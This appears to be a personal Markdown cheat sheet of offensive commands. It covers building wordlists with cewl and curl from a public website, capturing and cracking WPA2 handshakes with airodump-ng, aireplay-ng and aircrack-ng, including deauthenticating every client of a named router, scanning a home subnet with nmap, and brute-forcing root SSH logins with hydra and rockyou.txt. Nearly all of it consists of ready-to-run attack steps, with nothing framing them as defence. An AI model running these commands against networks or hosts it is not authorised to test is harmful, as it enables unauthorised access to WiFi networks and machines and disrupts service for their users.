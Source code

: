 ## Wordlist Crawler 

- sudo apt install cewl

- `cewl -d 1 -m 8 -w wordlist-d1m8-samecase.txt https://avengers.marvelhq.com/`
- `cewl -d 1 -m 8 -w wordlist-d1m8-lowercase.txt https://avengers.marvelhq.com/ --lowercase` 
- `cewl -d 2 -m 8 -w wordlist-d2m8-lowercase.txt https://avengers.marvelhq.com/ --lowercase` 
- `cewl -d 1 -m 1 -w wordlist-d1m1-lowercase.txt https://avengers.marvelhq.com/ --lowercase` 
- `cewl -d 1 -m 1 -w wordlist-d1m1-samecase.txt https://avengers.marvelhq.com/`
- `cewl -d 2 -m 1 -w wordlistd2m1-d2m1-lowercase.txt https://avengers.marvelhq.com/ --lowercase`

```sh
curl "https://avengers.marvelhq.com/" | sed 's/[^a-zA-Z ]/ /g' | tr 'A-Z ' 'a-z\n' | grep '[a-z]' | sort -u > wordlist.txt
``` 

## WPA2 Brute Force 

- The shortest password allowed with WPA2 is 8 characters long
- sudo su 
- echo <password> | sudo -S <command>

### Start and Check Wifi Adapter Monitor Mode

- iwconfig

- airmon-ng check kill
- airmon-ng
- airmon-ng start wlan0

### Attack 1 (Moodle)

1. airmon-ng

2. macchanger --mac 00:11:22:33:44:55 wlan0

3. macchanger -s wlan0  (60:a4:b7:22:74:9f)

4. airmon-ng start wlan0

5. airodump-ng wlan0

to retrieve bssid mac and chanel

6. airodump-ng -c 1 -w file --bssid 48:29:52:46:92:CB wlan0

7. aireplay-ng --deauth 1 -a 48:29:52:46:92:CB -c 60:a4:b7:22:74:9f wlan0

8. aircrack-ng -w wordlist.txt file-01.cap


### Discover information about router

To retrieve MAC ADDRESS, CHANNEL and ESSID use:

- sudo airodump-ng wlan0
    - MA => 48:29:52:46:92:CB
    - CH => 1
    - ESSID => Casa_wifi

### Attack 2

1. To check station connected to the router:

- sudo airodump-ng -c 1 wlan0 -d 48:29:52:46:92:CB 
    -  Specify the channel to use aireplay correctly

2. Run this analyzes packets before deauth everyone to writes handshake to a file:

- sudo airodump-ng -w hacktest -c 1 --bssid 48:29:52:46:92:CB wlan0

3. To forces deauth everyone:

- sudo aireplay-ng --deauth 0 -a 48:29:52:46:92:CB wlan0

4. Uses the hack01-01.cap to analyze in wireshark: search for ***eapol** which is the handshake protocol used to auth

5. Check for the second message of the handshake in:
    - 802.1X authentication
    - WPA KEY DATA: 30140100000fac040100000fac040100000fac020c00
    - the handshake packets is needed to step 6 can try a bunch of random passwords...

- :warning: we can skip the step 4 e 5 above and just try the step 6 and with lucky it works :warning: 

6. sudo aircrack-ng hack-01.cap -w wordlist.txt
    - and the outputs should appear !!!
    - sudo aircrack-ng hack01-01.cap -w /usr/share/wordlists/rockyou.txt

## SSH Brute Force
- sudo service NetworkManager restart
- iwconfig

- sudo airmon-ng stop wlan0
- ifconfig
- sudo nmap -sP 192.168.15.0/24
- sudo nmap -sP 192.168.15.0/24 -p 80,22

----- 
- sudo nmap 192.168.15.* -p ssh --open


- sudo nmap 192.168.15.* --open
-----

- ssh user@ipaddress

- hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.15.1 -t 4 ssh

- hydra -L /usr/share/wordlists.rockyou.txt -P /usr/share/wordlists/rockyou.txt -M Documents/ip.txt -t 4 ssh

-L list of users
-M list of ips